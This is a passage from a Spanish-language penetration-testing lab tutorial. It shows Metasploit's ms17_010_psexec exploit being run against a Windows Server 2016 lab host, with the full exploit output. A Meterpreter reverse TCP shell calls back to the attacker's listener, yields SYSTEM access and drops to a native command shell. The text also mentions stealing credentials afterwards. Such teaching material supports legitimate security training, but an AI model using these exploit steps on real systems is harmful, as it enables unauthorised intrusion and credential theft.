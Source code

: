 ```r

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Esta vez, lo mantuvimos simple y solo usamos un `windows/meterpreter/reverse_tcp payload`. Puedes cambiar esto como desees para un tipo de shell diferente o para ofuscar más tu ataque, como se muestra en las secciones de payloads anteriores. Con nuestras opciones configuradas, intentémoslo y veamos si obtenemos una shell.

4. Execute Attack, and Receive A Callback.

### Execute Our Attack

```r
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

¡Éxito! Hemos logrado nuestro exploit y obtenido una sesión shell. Una shell de nivel `SYSTEM` además. Como se ve en los módulos anteriores de MSF, ahora que tenemos una sesión abierta a través de Meterpreter, se nos presenta el prompt `meterpreter >`. Desde aquí, podemos utilizar Meterpreter para ejecutar más comandos para recopilar información del sistema

, robar credenciales de usuario o utilizar otro módulo de post-explotación contra el host. Si deseas interactuar directamente con el host, también puedes pasar a una sesión shell interactiva en el host desde Meterpreter.

5. Identify the Native Shell.

### Identify Our Shell

```r
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
